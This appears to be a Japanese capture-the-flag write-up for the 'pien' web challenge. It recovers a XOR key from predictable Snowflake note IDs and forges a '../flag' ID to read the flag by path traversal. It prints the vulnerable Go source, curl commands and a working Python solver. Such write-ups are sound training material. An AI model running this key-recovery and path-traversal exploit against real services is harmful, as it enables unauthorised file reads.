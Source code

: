 # pien:web:250pts
I wrote another note service, and showed it to my nerd friend, and the guy told me that it's still vulnerable. WHY?  
He must know exactly when I started the server? hmm? Am I wrong?  
NOTE: Our server is weak. No DoS please 😭 (The intended soluation does NOT require any DoS)  
NOTE2: The server can be reset without any notification.  
[http://35.200.110.16:8081/](http://35.200.110.16:8081/)  

[pien.tar.gz](pien.tar.gz)  

# Solution
URLとソースコードが渡される。  
アクセスすると文字列をメモできるサービスのようだ。  
![site.png](site/site.png)  
作成したメモのURLを見ると以下のようで、おそらくbase64されている。  
```
http://35.200.110.16:8081/view/note/SS9qeVwLzGoLp0JdFvaHagINnw==
```
`get id!`なるリンクから謎のidを取得できるようだ。  
```bash
$ curl http://35.200.110.16:8081/id
1728304496150319104
```
次に、ソースを見ると主要部分は以下であった。  
```go
~~~
func init() {
	file, err := os.Open("./index.html")
	if err != nil {
		panic(err)
	}
	defer file.Close()
	data, err := io.ReadAll(file)
	if err != nil {
		fmt.Println("Error reading file:", err)
		return
	}
	indexHTML = string(data)

	node, err = snowflake.NewNode(1)
	if err != nil {
		panic(err)
	}

	DATA = os.Getenv("DATADIR")
	if DATA == "" {
		DATA = "./data"
	}

	key = make([]byte, KEYLEN)
	_, err = rand.Read(key)
	if err != nil {
		panic(err)
	}
}

func dec(s string) (string, error) {
	b, err := base64.URLEncoding.DecodeString(s)
	if err != nil || len(b) > KEYLEN {
		return "", err
	}
	for i := 0; i < len(b); i++ {
		b[i] ^= key[i]
	}
	return string(b), nil
}

func enc(s string) string {
	b := []byte(s)
	for i := 0; i < len(b); i++ {
		b[i] ^= key[i]
	}
	return base64.URLEncoding.EncodeToString(b)
}

type PostNote struct {
	Data string `json:"data"`
}

func main() {
	e := echo.New()
	e.Use(middleware.Logger())

	e.GET("/", func(c echo.Context) error {
		return c.HTML(http.StatusOK, indexHTML)
	})

	e.GET("/id", func(c echo.Context) error {
		id := node.Generate()
		return c.String(http.StatusOK, id.String())
	})

	e.POST("/note", func(c echo.Context) error {
		pn := new(PostNote)
		if err := c.Bind(pn); err != nil {
			return c.String(http.StatusBadRequest, "Invalid request")
		}
		data := pn.Data
		if len(data) > 1024 {
			return c.String(http.StatusBadRequest, "Invalid request")
		}
		id := node.Generate()
		f, err := os.Create(DATA + "/" + id.String())
		if err != nil {
			fmt.Printf("Open Error: %v\n", err)
			return c.String(http.StatusInternalServerError, "Internal Server Error")
		}
		_, err = f.WriteString(data)
		if err != nil {
			fmt.Printf("Write Error: %v\n", err)
			return c.String(http.StatusInternalServerError, "Internal Server Error")
		}
		encodedID := enc(id.String())
		// redirect to /note?id=<uuid>
		return c.Redirect(http.StatusFound, "/note/"+encodedID)
	})

	// /note?id=<uuid>
	e.GET("/note/:noteID", func(c echo.Context) error {
		encodedID := c.Param("noteID")
		if encodedID == "" {
			return c.String(http.StatusBadRequest, "Invalid id")
		}
		id, err := dec(encodedID)
		if err != nil {
			return c.String(http.StatusBadRequest, "Invalid id")
		}

		fmt.Printf("File: %s\n", DATA+"/"+id)

		f, err := os.Open(DATA + "/" + id)
		if err != nil {
			return c.String(http.StatusInternalServerError, "Internal Server Error")
		}
		data, err := io.ReadAll(f)
		if err != nil {
			return c.String(http.StatusInternalServerError, "Internal Server Error")
		}

		return c.String(http.StatusOK, string(data))
	})

	e.GET("/view/note/:noteID", func(c echo.Context) error {
		return c.HTML(http.StatusOK, indexHTML)
	})

	e.Debug = true
	e.Logger.SetLevel(log.DEBUG)
	panic(e.Start(":8081"))
}
```
同梱されているcompose.ymlおよびDockerfileより、フラグは`/flag`にあるようだ。  
ソースを見ると`/data`以下に`id := node.Generate()`でファイル名を作り、メモをファイルに保存している。  
さらに`id`と秘密の`key`をxorし、base64してメモのURLとしている。  
メモはファイル名であるidで自由に閲覧できるので、パストラバーサルでidを`../flag`としてやればフラグは読めるが、`key`がわからない。  
ここで、idを複数回取得してやると、先頭部分が共通していることがわかる。  
```bash
$ curl http://35.200.110.16:8081/id
1728309588127649792
$ curl http://35.200.110.16:8081/id
1728309591738945536
$ curl http://35.200.110.16:8081/id
1728309595849363456
```
共通しているidの先頭部分とメモのURL(`id`と`key`のxorのbase64enc)とを再度xorすると、`key`の先頭部分が入手できることに気づく。  
`dec`関数はデータ長のみ`key`とxorするため、`../flag`の7文字分の`key`が手に入ればよい。  
以下のsolver.pyでフラグを読み取るURLの作成までを行う。  
```python
import base64
import requests


def xor_bytes(b1, b2):
    return bytes(a ^ b for a, b in zip(b1, b2))


id7 = requests.get("http://35.200.110.16:8081/id").text[:7]
note = requests.post(
    "http://35.200.110.16:8081/note",
    json={
        "data": "satoki",
    },
    allow_redirects=False,
)
url7 = base64.b64decode(note.headers.get("Location").replace("/note/", ""))[:7]

key7 = xor_bytes(id7.encode(), url7)
flag_url = xor_bytes(key7, b"../flag")

print(base64.b64encode(flag_url).decode())
```
実行する。  
```bash
$ python solver.py
VjZ3JwNanw==
```
![flag.png](site/flag.png)  
`http://35.200.110.16:8081/view/note/VjZ3JwNanw==`にアクセスするとflagが得られた。  

## TSGLIVE{I'm doing ISUCON, so I don't know what is happening in TSGLIVE sorry}